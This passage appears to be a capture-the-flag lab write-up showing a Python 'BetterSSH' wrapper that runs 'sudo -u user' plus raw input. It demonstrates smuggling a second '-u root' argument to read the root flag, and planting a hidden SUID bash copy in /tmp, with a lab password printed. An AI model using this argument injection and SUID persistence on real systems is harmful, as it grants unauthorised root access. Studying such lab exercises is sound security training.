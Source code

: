 ```

while True:
    command = input(session['user'] + "@Obscure$ ")
    cmd = ['sudo', '-u',  session['user']]
    cmd.extend(command.split(" "))
    proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    o,e = proc.communicate()
    print('Output: ' + o.decode('ascii'))
    print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')

```

The string passed to `subprocess.Popen` is `sudo -u [user] [user input]`. The trick here is to pass a second `-u root` before the rest of the command. To demonstrate, my local kali host has a user, df:

```

root@kali# sudo -u df id
uid=1000(df) gid=1000(df) groups=1000(df),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),132(scanner)
root@kali# sudo -u df -u root id
uid=0(root) gid=0(root) groups=0(root)

```

So, I’ll run the program normally, auth as robert, but then use it to read `root.txt`:

```

robert@obscure:/dev/shm$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: robert
Enter password: SecThruObsFTW
Authed!
robert@Obscure$ -u root cat /root/root.txt
Output: 512fd442************************

```

I could easily get a shell from here. For example, I can make a SUID `bash`:

```

robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: robert
Enter password: SecThruObsFTW
Authed!
robert@Obscure$ -u root cp /bin/bash /tmp/.0xdf
Output: 

robert@Obscure$ -u root chmod 4755 /tmp/.0xdf
Output: 

robert@Obscure$ ^CTraceback (most recent call last):
  File "/home/robert/BetterSSH/BetterSSH.py", line 57, in <module>
    command = input(session['user'] + "@Obscure$ ")
KeyboardInterrupt

```
